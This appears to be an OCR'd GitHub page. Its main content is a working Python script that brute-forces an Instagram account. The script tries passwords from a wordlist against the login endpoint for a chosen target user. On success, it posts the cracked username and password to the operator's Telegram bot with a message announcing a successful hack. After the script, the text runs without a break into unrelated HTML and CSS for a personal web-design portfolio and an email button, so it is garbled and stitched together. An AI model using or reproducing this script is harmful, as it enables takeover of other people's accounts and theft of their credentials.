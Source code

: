 import requests
import random
from user_agent import generate_user_agent as aa
R = '\033[1;31m' # أحمر
X = '\033[1;33m' # أصفر
F = '\033[2;32m' # أخضر
C = "\033[1;97m" # أبيض
B = '\033[2;36m' # سمائي
Y = '\033[1;34m' # أزرق فاتح
E = '\033[1;31m' # أحمر
B = '\033[2;36m' # سمائي
G = '\033[1;32m' # أخضر
S = '\033[1;33m' # أصفر
Z = '\033[1;31m' # أحمر
F = '\033[2;32m' # أخضر

a1 = '\x1b[1;31m' # أحمر
a2 = '\x1b[1;34m' # أزرق
a3 = '\x1b[1;32m' # أخضر
a4 = '\x1b[1;33m' # أصفر
a5 = '\x1b[38;5;208m' # برتقالي
a6 = '\x1b[38;5;5m' # أرجواني
a7 = '\x1b[38;5;13m' # وردي
a8 = '\x1b[1;30m' # أسود
a9 = '\x1b[1;37m' # أبيض
a10 = '\x1b[38;5;52m' # بني
a11 = '\x1b[38;5;8m' # رمادي
a12 = '\x1b[38;5;220m' # ذهبي
a13 = '\x1b[38;5;7m' # فضي
a14 = '\x1b[38;5;153m' # أزرق فاتح
a15 = '\x1b[38;5;18m' # أزرق داكن
a16 = '\x1b[38;5;48m' # أخضر فاتح
a17 = '\x1b[38;5;22m' # أخضر داكن
a18 = '\x1b[38;5;196m' # أحمر فاتح
a19 = '\x1b[38;5;88m' # أحمر داكن
a20 = '\x1b[38;5;226m' # أصفر فاتح
a21 = '\x1b[38;5;136m' # أصفر داكن
a22 = '\x1b[38;5;216m' # برتقالي فاتح
a23 = '\x1b[38;5;166m' # برتقالي داكن
a24 = '\x1b[38;5;234m' # أرجواني فاتح
a25 = '\x1b[38;5;91m' # أرجواني داكن
a26 = '\x1b[38;5;205m' # وردي فاتح
a27 = '\x1b[38;5;161m' # وردي داكن
a28 = '\x1b[38;5;236m' # أسود فاتح
a29 = '\x1b[38;5;233m' # أسود داكن
a30 = '\x1b[38;5;255m' # أبيض فاتح
a31 = '\x1b[38;5;231m' # أبيض داكن
a32 = '\x1b[38;5;180m' # بني فاتح
a33 = '\x1b[38;5;94m' # بني داكن
a34 = '\x1b[38;5;252m' # رمادي فاتح
a35 = '\x1b[38;5;246m' # رمادي داكن
a36 = '\x1b[38;5;228m' # ذهبي فاتح
a37 = '\x1b[38;5;172m' # ذهبي داكن
a38 = '\x1b[38;5;188m' # فضي فاتح
a39 = '\x1b[38;5;247m' # فضي داكن
a40 = '\x1b[38;5;117m' # أزرق سماوي
print(f'''{X}« {X} RT Al-Jubouri {F}⸙ {X}»
    {B}┏{Z}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{B}┓
    {Z}┃ {F}⌯ {C}Telegram {F} ›{a21} @aaaa1qaa             {Z}
    {Z}┃ {F}⌯ {C}channel{F}   ›{a26} @Y_Y_2_4           {Z}
    {Z}┃ {F}⌯ {C}name    {F}  › {a4}$ ابو تراب             {Z}     
 {Z}   ┃    
    ┃ {F}⌯ {a4} مرحبا بكم في اداتي المتتطوره
{Z}    ┃    
    {B}┗{Z}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{B}┛ ''')

ID =input(f"{R}({X}-{R}) {X} ID {R}: "+X)
token =input(f"{R}({X}-{R}) {X} TOKEN {R} : "+X)
r = requests.Session()
pas = input(X+'ENTER YOUR FILE : ')
rfile = open(pas, 'r')
aa = input(X+'\x1b[38;5;180mTarget User : ')
print(F+'*'*60)
while True:
 username = aa
 password = rfile.readline().split('\n')[0]
 
 url = 'https://www.instagram.com/accounts/login/ajax/'
  
  
 headers = {
    'authority': 'www.instagram.com',
    'accept': '*/*',
    'accept-language': 'ar-EG,ar;q=0.9,en-US;q=0.8,en;q=0.7',
    'content-type': 'application/x-www-form-urlencoded',
    'origin': 'https://www.instagram.com',
    'referer': 'https://www.instagram.com/',
    'sec-ch-prefers-color-scheme': 'dark',
    'sec-ch-ua': '"Not A(Brand";v="8", "Chromium";v="132"',
    'sec-ch-ua-full-version-list': '"Not A(Brand";v="8.0.0.0", "Chromium";v="132.0.6961.0"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'user-agent': str(aa()),
    'x-asbd-id': '359341',
    'x-csrftoken': 'gwKvmgAHwSjoTnfIlFl8OhS1PMHsbkJ8',
    'x-ig-app-id': '936619743392459',
    'x-ig-www-claim': '0',
    'x-instagram-ajax': '1026259405',
    'x-requested-with': 'XMLHttpRequest',
    'x-web-session-id': '4f3140:kg16a3:82ypxw',
}
         
         
 data = {'username':username,
         'enc_password':'#PWD_INSTAGRAM_BROWSER:0:1589682409:{}'.format(password),
         'queryParams':'{}',
         'optIntoOneTap':'false'}


 req_login = r.post(url, headers=headers, data=data, proxies=None)
 
 if 'userId' in req_login.text:
  print(F+'User name : '+username)
  print(F+'Password : '+password)
  send  = (f'''https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text= • 
_-_-_-_-_-_-_-_-_-_-_
  تم الاختراق بنجاح ✅ ابو تراب
user ➪ {username} 

pass ➪ {password}

by : @aaaa1qaa
_-_-_-_-_-_-_-_-_-_-_
''')
  i = requests.post(send)
  break    

 else:
  print(Z+'Bad : ',username+'  :  '+password)      text-decoration: none;
      color: white;
      background: #00ffcc;
      padding: 10px 20px;
      margin: 10px;
      border-radius: 10px;
      display: inline-block;
      transition: 0.3s;
    }
    .links a:hover {
      background: #00ccaa;
    }
    .section {
      padding: 50px 20px;
      text-align: center;
    }
    .section h2 {
      font-size: 28px;
      color: #00ffcc;
      margin-bottom: 20px;
    }
    .services, .images {
      display: flex;
      flex-wrap: wrap;
      justify-content: center;
      gap: 20px;
    }
    .service {
      background: #1a1a1a;
      padding: 20px;
      border-radius: 15px;
      width: 250px;
      box-shadow: 0 4px 10px rgba(0,0,0,0.4);
    }
    .images img {
      width: 250px;
      height: 170px;
      object-fit: cover;
      border-radius: 15px;
      transition: transform 0.3s ease;
    }
    .images img:hover {
      transform: scale(1.05);
    }
    footer {
      background: #111;
      padding: 20px;
      text-align: center;
      color: #aaa;
      font-size: 14px;
    }
  </style>
</head>
<body>

  <header>
    <h1>عبدالله هيثم</h1>
    <p>مبرمج مواقع التواصل ومطور واجهات ويب احترافية</p>
    <div class="links">
      <a href="https://www.instagram.com/4q.qx?igsh=NTJtb3J1aTN2MzAw" target="_blank">📸 حسابي على إنستقرام</a>
      <a href="https://wa.me/message/TDSUNZSGC6OVA1" target="_blank">💬 تواصل على واتساب</a>
    </div>
  </header>

  <div class="section">
    <h2>ماذا أقدم لك؟</h2>
    <div class="services">
      <div class="service">🔹 تصميم موقع ويب كامل حسب طلبك</div>
      <div class="service">🔹 واجهات ويب عصرية وجذابة</div>
      <div class="service">🔹 دعم فني وتعديلات مستمرة</div>
      <div class="service">🔹 تصميم صفحات هبوط احترافية</div>
    </div>
  </div>

  <div class="section">
    <h2>أعمالي وصور </h2>
    <div class="images">
      <img src="https://images.app.goo.gl/EQ7vE">
      <img src="https://images.app.goo.gl/THcpN">
      <img src="https://images.app.goo.gl/iwcR3">
    </div>
  </div>

  <footer>
    © 2025 عبدالله هيثم - جميع الحقوق محفوظة.
 <!DOCTYPE html>
<html lang="ar">
<head>
  <meta charset="UTF-8">
  <title>تواصل عبر البريد</title>
  <style>
    .email-button {
      display: inline-block;
      padding: 12px 24px;
      background-color: #D44636; /* لون يشبه Gmail */
      color: white;
      text-decoration: none;
      font-size: 18px;
      border-radius: 8px;
      font-family: Arial, sans-serif;
      transition: background-color 0.3s ease;
    }

    .email-button:hover {
      background-color: #b7382f;
    }
  </style>
</head>
<body>

  <a href="mailto:bwdhjamy997@gmail.com" class="email-button">📧 تواصل عبر Gmail</a>

   </footer>

</body>
</html>
